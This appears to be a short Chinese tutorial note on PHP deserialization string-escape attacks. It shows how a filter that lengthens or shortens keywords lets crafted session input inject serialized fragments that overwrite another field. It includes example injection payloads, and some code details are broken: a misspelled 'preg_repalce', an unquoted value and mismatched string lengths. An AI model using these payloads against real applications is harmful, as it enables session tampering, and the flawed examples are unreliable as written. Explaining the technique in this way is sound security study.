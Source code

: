 #反序列化逃逸

##关键词增多的逃逸
```
<?php
 
$_SESSION['user']='get';
$_SESSION['function']='fun';

echo serialize($_SESSION);

?>
```

此时输出的会是$_SESSION序列化的值
```
a:2:{s:4:"user";s:3:"get";s:8:"function";s:3:"fun";} 
```

此时我想更改function的值，我们可以增加关键词数
```
_SESSION['user']=get";s:8:"function";s:4:"funs";}
```
此时输出的是
```
a:2:{s:4:"user";s:32:"get";s:8:"function";s:4:"funs";}";s:8:"function";s:3:"fun";} 
```

在反序列化中以分号作为分隔，以}作为结束，因此逃逸出了";s:8:"function";s:3:"fun";}，这逃逸出来的部分会被忽视掉
此时function值就发生了改变


##关键词减少的逃逸
```
<?php
 

function fittle($img){
$array=array('user','flag');
$iop='/'.implode("|",$array).'/i';
return preg_repalce($iop,"",$img);
}
 
$_SESSION['user']='get';
$_SESSION['function']=fun;

echo fittle(serialize($_SESSION));

?>
```
如果?f=fun，此时输出的是：
```
a:2:{s:4:"";s:3:"get";s:8:"function";s:3:"fun";} 
```

此时我们看到user被过滤掉了，而字符串数仍然为4，不变，所以容易造成逃逸

我们可以构造多个user来逃逸
```
_SESSION['user']=useruseruser";s:3:"get";s:8:"function";s:3:"funs";s:3:"abb";}

```

此时得出的结果为：
```
a:2:{s:4:"user";s:61:"useruseruser";s:3:"get";s:8:"function";s:3:"funs";s:3:"abb";}";s:8:"function";s:3:"fun";} 
```

可见";s:8:"function";s:3:"fun";} 这部分逃逸出来，被忽视掉，function值发生改变